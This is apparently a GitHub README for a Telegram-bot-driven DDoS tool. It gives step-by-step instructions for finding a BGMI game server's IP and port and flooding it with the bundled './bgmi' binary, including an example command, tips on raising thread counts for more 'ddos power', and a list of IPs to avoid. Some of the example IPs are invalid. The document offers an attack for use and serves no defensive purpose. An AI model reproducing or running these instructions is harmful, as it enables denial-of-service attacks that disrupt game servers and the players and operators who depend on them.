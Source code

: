 # DDOS-attack-
DDOS Attack with telegram bot
open that file in gihub codespace
then give your telegram bot id & your user id i mean edit in that script

To Run that -->
1. at first in terminal write pip install telebot(In vs code install python extensions)
2. then after installing that clear that
3. then in terminal write cd bot
4. then write chmod +x *
5. then in bgmi find the ip & port then
6. in terminal "./bgmi <ip> <port> <time> <thread>" then hit enter
7. Ex :- ./bgmi 2.448.48.54 18363 280 280    (Remember that 280 means in second & if you increase the thread them it will increase ddos power)
8. after executing that command your ddos attack will start
9. Avoid some IPs -->
    a. 4.45.678.5
    b. 52.XXXX.XX
    c. 20.235.XXX
    d. 4.247.XX
